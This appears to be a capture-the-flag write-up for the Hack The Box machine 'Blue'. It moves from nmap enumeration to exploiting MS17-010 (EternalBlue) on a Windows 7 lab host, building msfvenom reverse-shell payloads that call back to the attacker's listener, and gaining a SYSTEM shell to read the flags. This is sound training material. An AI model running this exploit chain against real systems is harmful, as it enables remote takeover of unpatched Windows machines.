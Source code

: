 # Blue

## Enumeration

A port scan with OS detection and script scanning reveals open ports for SMB and RPC, and shows us that the operation system is Windows 7 Prof SP1.

```bash
$ sudo nmap -v -A 10.10.10.40
...
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
...
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
...
```

Use the smb-vuln scripts of nmap to check for SMB vulnerabilities

```bash
$ nmap -v -p139,445 --script "smb-vuln-*" 10.10.10.40
...
Host script results:
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
...
```

## Exploitation

The system seems to be vulnerable for MS17-010. This can be easily exploited with metasploit (use exploit/smb/ms17_010_eternalblue). But there are also some other great exploit scripts to be found on GitHub, like https://github.com/helviojunior/MS17-010. Note that there are a lot of variants available, some work, some don't.

```bash
$ git clone https://github.com/helviojunior/MS17-010.git
Cloning into 'MS17-010'...
$ cd MS17-010
```

First try the automatic exploit

```bash
$ python zzz_exploit.py 10.10.10.40 
Target OS: Windows 7 Professional 7601 Service Pack 1
Not found accessible named pipe
Done
```

No success, next step is to try the manual version in three steps:

1. Compile kernel code
2. Generate shell binaries.
3. Merge binaries into one file.
4. Start listener and run exploit

```bash
$ cd shellcode

# Compile kernel code
$ nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin
$ nasm -f bin eternalblue_kshellcode_x86.asm -o sc_x86_kernel.bin

# Create shellcode
$ msfvenom -p windows/x64/shell_reverse_tcp -f raw -o sc_x64_msf.bin EXITFUNC=thread LHOST=10.10.14.16 LPORT=4444
$ msfvenom -p windows/shell_reverse_tcp -f raw -o sc_x86_msf.bin EXITFUNC=thread LHOST=10.10.14.16 LPORT=4444

# Merge
$ cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
$ cat sc_x86_kernel.bin sc_x86_msf.bin > sc_x86.bin
$ python eternalblue_sc_merge.py sc_x86.bin sc_x64.bin sc_all.bin

# Start listener in second terminal
$ nc -nlvp 4444

# Run exploit
$ cd..
$ python eternalblue_exploit7.py 10.10.10.40 shellcode/sc_all.bin 40
shellcode size: 2203
numGroomConn: 40
Target OS: Windows 7 Professional 7601 Service Pack 1
SMB1 session setup allocate nonpaged pool success
SMB1 session setup allocate nonpaged pool success
good response status: INVALID_PARAMETER
done
```

The groom number of 40 might need some adaption, in this case 40 seems to work

```bash
$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.40] 49158
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```

As we are already system, both user.txt and root.txt are accessible.

```cmd
C:\> type C:\Users\haris\Desktop\user.txt
C:\> type C:\Users\Administrator\Desktop\root.txt
```